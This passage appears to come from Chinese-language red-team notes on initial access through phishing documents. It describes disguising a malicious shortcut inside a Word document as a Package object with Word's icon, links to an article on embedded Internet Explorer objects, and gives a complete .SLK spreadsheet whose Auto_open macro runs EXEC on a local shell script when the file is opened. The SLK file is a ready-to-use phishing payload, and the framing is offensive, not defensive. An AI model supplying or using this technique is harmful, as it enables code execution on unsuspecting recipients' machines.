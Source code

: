 让我们创建一个 Word 文档，其中将包含上一步中创建的恶意快捷方式：

让我们通过选择一个并将其图标源更改为 Microsoft Word 可执行文件来将新对象插入到文档中：`Package`

![](初始访问\5.png)

## 网络钓鱼：嵌入式 Internet Explorer

https://www.securify.nl/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects/

## 网络钓鱼：.SLK Excel

创建一个新的文本文件，放入以下代码并将其另存为 .slk 文件：

```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
